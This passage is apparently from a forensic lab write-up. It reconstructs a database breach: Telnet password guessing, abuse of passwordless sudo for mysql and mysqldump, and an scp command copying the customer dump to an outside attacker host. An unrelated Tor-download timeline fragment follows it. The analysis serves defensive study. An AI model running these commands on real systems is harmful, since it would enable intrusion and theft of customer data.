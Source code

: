 ### Remote Access into the Database with Telnet

Immediately after, the attacker utilizes Telnet to attempt to remotely access the database as demonstrated by the failed login attempts captured on Wireshark:

Wireshark analysis of Telnet packets revealed that the attacker attempted 4 different username/password combinations to log in:
- admin/admin
- administrator/admin
- phl/phl
- phl/phl123 (successful)

### Exfiltrating Customer Information from the Database

Upon gaining access to the database, the attacker runs several commands on its shell:
- **sudo -l** -
This command shows the commands available to the phl user operating with superuser or root privileges

In this screenshot, the attacker has access to two different commands: mysql and mysqldump. In both cases, they are able to run the command as root without requiring a password.

- **sudo mysql -u root -p** -
This command runs mysql to connect to the MySQL server as the root user, and prompts the attacker for a password. However, because they ran the command with superuser privileges, no password is required as explained in the previous screenshot.

With access to the MySQL server, the attacker runs a number of different MySQL queries to investigate. In particular, they searched the “phl” database and discovered a table containing customer information:

They then perform the query “SELECT * FROM customers” to view the table, revealing information about the company’s customer information:

- **sudo mysqldump -u root -p phl > phl.db** - The attacker then runs this command to create a dump of the “phl” database containing the customer information into a file named “phl.db.” It is saved to the default directory.
- **scp phl.db fierce@178.62.228.28:/tmp/phl.db** - This command utilizes secure copy to “securely copy files and directories between two locations” (Linuxize, 2023) using the SSH protocol.
According to the command syntax, phl.db is the path of the source file located on the database, which is copied to the attacker’s (fierce@178.62.228.28) /tmp/ directory.
The attacker is prompted for their password (fierce123) before transfer of data is conducted.


---

## Chronological Event Timeline 

![Image](https://github.com/user-attachments/assets/73e09489-724e-4c9b-a384-3568e15ddd43)

### **1️⃣ Tor Browser Download**
- **🕒 Timestamp:** `2025-02-05T16:36:20 UTC`
- **📂 Event Type:** File Download
- **💻 Device:** `threat-hunt-lab`
- **👤 User:** `employee`
- **🔍 Details:**
  - The file **"tor-browser-windows-x86_64-portable-14.0.5.exe"** was **downloaded** into the **Downloads** folder.
  - This indicates **intentional** acquisition of the Tor browser.

---